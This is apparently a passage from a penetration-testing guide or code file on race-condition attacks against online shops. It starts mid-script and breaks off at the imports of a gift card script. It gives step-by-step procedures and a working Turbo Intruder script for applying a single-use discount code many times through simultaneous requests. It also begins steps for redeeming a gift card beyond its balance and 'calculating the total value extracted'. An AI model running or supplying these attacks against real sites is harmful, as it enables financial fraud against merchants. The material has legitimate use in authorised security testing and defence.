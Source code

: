            return potential_endpoints
       
       # Example usage
       session = requests.Session()
       session.headers = {"User-Agent": "Mozilla/5.0 ..."}
       results = find_potential_limit_endpoints("https://example.com", session)
       
       for endpoint in results:
           print(f"Potential limit endpoint: {endpoint['url']}")
           print(f"Indicator found: {endpoint['indicator']}")
           print(f"Status code: {endpoint['status_code']}")
           print("-" * 50)
       ```
    
    2. **Single-use discount code exploitation**:
       - Step 1: Identify a single-use discount code application endpoint
       - Step 2: Create a valid request that applies the discount code
       - Step 3: Prepare multiple identical copies of this request
       - Step 4: Send requests simultaneously using Burp Repeater or Turbo Intruder
       - Step 5: Check responses and cart/order state to verify multiple applications
       - Step 6: Complete the checkout process to confirm the exploit worked
       - Example Turbo Intruder script for discount code exploitation:
       ```python
       def queueRequests(target, wordlists):
           engine = RequestEngine(
               endpoint=target.endpoint,
               concurrentConnections=20,  # Adjust based on server capacity
               requestsPerConnection=1,
               pipeline=False
           )
           
           # Queue multiple identical requests
           for i in range(20):
               engine.queue(target.req, None)
       
       def handleResponse(req, interesting):
           # Look for successful responses
           if "discount applied" in req.response.lower() or "code accepted" in req.response.lower():
               table.add(req)
       ```
       
    3. **Gift card balance exploitation**:
       - Step 1: Identify the gift card redemption or usage endpoint
       - Step 2: Create a request that uses a gift card with remaining balance
       - Step 3: Prepare multiple identical copies of this request
       - Step 4: Send requests simultaneously using Burp Repeater or Turbo Intruder
       - Step 5: Check responses and account state to verify multiple redemptions
       - Step 6: Calculate the total value extracted compared to the card's actual balance
       - Example Python script using requests for gift card exploitation:
       ```python
       import requests
       import concurrent.futures
       